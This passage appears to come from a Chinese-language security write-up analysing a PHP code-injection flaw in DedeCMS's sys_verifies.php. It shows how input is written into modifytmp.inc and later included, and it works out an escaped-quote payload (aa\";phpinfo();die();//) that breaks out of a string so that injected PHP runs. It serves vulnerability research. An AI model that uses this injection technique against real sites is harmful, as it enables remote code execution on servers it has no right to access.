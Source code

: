 ```php
    
    include(DEDEADMIN.'/templets/sys_verifies_getfiles.htm');
    exit();
}

```

上述代码对`data/modifytmp.inc`文件进行写入操作，遍历`$refiles`数组，取出字符串先删掉前三个字符，然后用`GetDirName()`方法（1）先用正则替换字符串中的反斜杠，并在前面加入`../`生成相对路径。（2）再用正则匹配最后一个斜杠之后的所有字符，并将其替换为空。

```php
function GetDirName($filename){
    $dirname = '../'.preg_replace("#[\\\\\/]{1,}#", '/', $filename);
    $dirname = preg_replace("#([^\/]*)$#", '', $dirname);
    return $dirname;
}
```

然后对处理后的路径执行`TestIsFileDir()`，实际是用`TestWriteAble()`方法测试对路径和`_dedet.txt`拼接后，该拼接结果是否可写。

`sys_verifies.php`的`action=down`方法如下，包含了`modifytmp.inc`文件

```php
else if($action=='down'){
    $cacheFiles = DEDEDATA.'/modifytmp.inc'; 
    require_once($cacheFiles); //包含了写入的modifytmp.inc
    ...
}
```

漏洞利用的关键在于如何把`phpinfo()`写入到文件中，总结上面的代码分析过程，限制的条件包括（1）前三个字符会被去除。所以需要在phpinfo()前加入三个多余字符 （2）`'$files['.$i.'] = "'.$filename.'";'."\r\n"`写入在文件中为`$files[0] ="xxx";` ，为了闭合双引号，第四位需要为`"`

根据这个构造思路，尝试传入`aaa"phpinfo();die();`，但是`$refiles`实际获取到的值是`aaa\"phpinfo();die();`，即双引号前多了`\`。也就是系统中对传入的变量值可能存在特殊字符转译。此时生成的`modifytmp.inc`内容如下，由于`\"`将引号转译了，没有能真正闭合掉双引号。另外`die();`后面的双引号也没有被闭合，且`phpinfo()`前缺少`;`号导致`phpinfo()`无法生效。

```php
<?php
$tmpdir = "68fe0dce55c036e3";
$files[0] = "\"phpinfo();die();";
$fileConut = 0;
?>
```

那么对于前双引号闭合，一个思路是让它变为`\\\"`，这样就没有转译的含义。对于后双引号，则可以直接加入注释符`//`来禁用掉。如传入`aa\";phpinfo();die();//`

此时的`modifytmp.inc`文件如下，

```php
<?php
$tmpdir = "68fe0dce55c036e3";
$files[0] = "\\";phpinfo();die();//";
$fileConut = 0;
?>
```


